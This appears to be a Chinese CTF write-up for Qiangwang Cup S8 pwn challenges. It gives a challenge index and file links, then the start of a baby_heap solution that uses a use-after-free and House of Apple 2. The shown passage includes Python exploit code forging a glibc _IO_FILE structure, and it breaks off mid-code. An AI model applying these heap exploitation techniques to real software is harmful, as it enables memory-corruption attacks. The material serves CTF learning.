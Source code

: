 ```yaml
---
title: 强网杯S8 初&决赛 - Pwn 个人题解 // 基本结束
published: true
---
```


| 目录跳转: |
|--------|
| [初赛 PWN: baby_heap 特解 - 附Exp](#pwn-baby_heap-特解) |
| [初赛 PWN: baby_heap 通解 (bk_nextsize + House of Apple) - 附Exp](#pwn-baby_heap-通解) |
| [初赛 PWN: expect_number - 附Exp](#pwn-expect_number) |
| [初赛 PWN: prpr - 未更完 - 附Exp](#pwn-prpr) |
| [初赛 PWN: chat_with_me 特解 - 附Exp](#pwn-chat_with_me-特解) |
| [初赛 PWN: qroute - 附 Exp](#pwn-qroute) |
| [决赛 PWN: heap (Unsafe Unlink) - 附Exp](#pwn-heap) |
| [决赛 PWN: ez_heap - 附 Exp](#pwn-ez_heap) |
| [决赛 PWN: qvm - 未更新](#pwn-qvm) |
 
| 文件下载: |
|--------|
| [baby_heap.zip](/image/qwbs8/baby_heap.zip) |
| [expect_number.zip](/image/qwbs8/expect_number.zip) |
| [prpr.zip](/image/qwbs8/prpr.zip) |
| [chat_with_me.zip](/image/qwbs8/chat_with_me.zip) |
| [heap.zip](/image/qwbs8/heap.zip) |
| [ez_heap.zip](/image/qwbs8/ez_heap.zip) |
| [qroute.zip](/image/qwbs8/qroute.zip) |

# [](#header-3)pwn baby_heap 通解

这个题很适合当 large bin 大堆溢出打 House of Apple 2 链的板子题. 但是如果真这样做，会绕很多弯路，最优解应该是利用到 Secret Shop 修改 got 表  
通解没有利用到 Secret Shop 和 print_env，而是直接用的 large chunk 来打  

这个程序在堆已经被 释放 后依然可以向该堆写入内容，因此有了可乘之机. 首先构造 House of Apple 2 通用板子

```py
# 伪造 struct _IO_FILE_complete_plus
struct_file = flat({
	# struct _IO_FILE_complete -> _IO_FILE
	0:      0,                                          # file._flag
	0x18:   p64(leave_ret_c),                           # file._IO_read_base
	0x28:   p64(libc.symbols['_IO_list_all'] - 0x20),   # 写 IO_list_all - 0x20 的地址至 bk_size，下一次分配小堆元素时就会分配到这里
	0x48: 	p64(orw_addr),                              # file._IO_save_base
	0x88:   p64(lock),                                  # file._lock
	# struct _IO_FILE_complete
	0xa0:   p64(widedata_addr),                         # file._wide_data 
	# struct
	0xd8:   p64(wfile),                                 # file._vtable
}, filler=b'\0')

# 伪造 struct _IO_wide_data
struct_widedata  = flat({
```